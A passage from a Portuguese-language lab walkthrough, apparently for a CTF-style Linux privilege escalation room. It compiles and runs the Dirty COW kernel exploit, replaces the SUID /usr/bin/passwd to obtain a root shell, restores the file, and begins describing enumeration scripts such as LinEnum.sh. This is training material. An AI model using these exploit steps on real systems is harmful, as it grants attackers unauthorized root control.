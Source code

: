 Vamos verificar o exploit `dirty_cow` e para isso vamos utilizar o programa `/home/user/tools/kernel-exploits/dirtycow/c0w.c`.Ele substitui o arquivo SUID `/usr/bin/passwd` por um que gera um shell (um backup de `/usr/bin/passwd` é feito em `/tmp/bak`).

Então vamos compilar o código e executar o exploit:

```bash
user@debian:~$ gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
user@debian:~$ ls
c0w  myvpn.ovpn  overwrite.sh  service  tools
user@debian:~$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 8f159000

madvise 0

ptrace 0
```

Ao terminar a execução do exploit, vamos executar o arquivo `/usr/bin/passwd` que foi substituido:

```bash
user@debian:~$ /usr/bin/passwd
root@debian:/home/user# whoami
root
```

E para completar esse topico basta clicar no botão `Completed`.

Também temos que restaurar o arquivo `/usr/bin/passwd` para o seu estado original:

```bash
root@debian:/home/user# mv /tmp/bak /usr/bin/passwd
```

---


## **<a id="21"> • Privilege Escalation Scripts.</a>**

Nesse topico nos é aprensentado um diretório chamado `/home/user/tools/privesc-scripts` que contem alguns scripts para auxiliar na escalada de privilégios. São eles:

1. **LinEnum.sh:**
 
   *LinEnum.sh* foi projetado para automatizar a coleta de informações sobre um sistema Linux e identificar possíveis pontos fracos na segurança. O script é executado como um usuário comum e tenta enumerar informações sobre o sistema, como as versões do kernel, serviços em execução, permissões de arquivos, usuários e grupos, etc.
